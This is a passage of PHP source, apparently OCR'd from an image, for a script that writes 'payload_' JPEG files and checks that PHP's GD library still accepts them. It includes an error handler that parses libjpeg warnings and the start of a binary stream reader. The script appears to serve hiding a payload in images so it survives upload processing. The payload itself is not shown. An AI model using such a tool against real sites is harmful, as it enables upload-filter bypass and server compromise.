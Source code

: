 ```
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
        private $size;

        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }

        public function seek() {
            return ($this->size - strlen($this->binData));
        }

        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }

        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
```